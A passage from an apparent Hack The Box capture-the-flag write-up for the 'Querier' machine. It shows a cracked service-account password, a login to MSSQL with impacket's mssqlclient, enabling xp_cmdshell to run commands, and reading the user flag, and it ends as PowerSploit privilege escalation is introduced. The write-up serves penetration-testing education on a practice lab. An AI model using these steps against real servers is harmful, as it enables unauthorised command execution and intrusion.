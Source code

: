 The GPU makes short work of the hash and cracks it quickly. We find the password is "corporate568". Perhaps this user has more privileges than the "reporting" user we were previously logged in as. Let's log back into the MSSQL service as the "mssql-svc" user and check:

```text
~/ctf/htb/querier/xlsm/xl λ python /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth  
-debug -db volume QUERIER/mssql-svc@10.10.10.125
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL>
```

Nice, we're logged in as the new user "mssql-svc". Can we now enable xp_cmdshell with our new user?

```text
SQL> enable_xp_cmdshell
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1.  
Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the  
RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------------------   
querier\mssql-svc
NULL
SQL>
```

We sure can! We're now able to run commands through the SQL client as if we had a cmd shell on the victim machine. Given that, the user flag should be ours:

```text
SQL> xp_cmdshell type C:\Users\mssql-svc\Desktop\user.txt
output
--------------------------------------------------------------------------------
c37b41bb6{truncated} <--- User flag!
NULL
SQL>
```

## Privilege Escalation

We have user level access now. Let's now finish this and go for SYSTEM level access. [Powersploit][5] is a collection of powershell scripts that can be used in attacks / penetration tests such as this. We'll specifically want to use the "Privesc" module which scans the victim machine for misconfigurations and other privilege escalation opportunities. The first step is to see where we need to place the powershell module to be able to execute it, and this is done by seeing which modules directories are in PATH:


[1]: https://www.hackthebox.eu/home/users/profile/2570
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu
[4]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py
[5]: https://github.com/PowerShellMafia/PowerSploit
[6]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py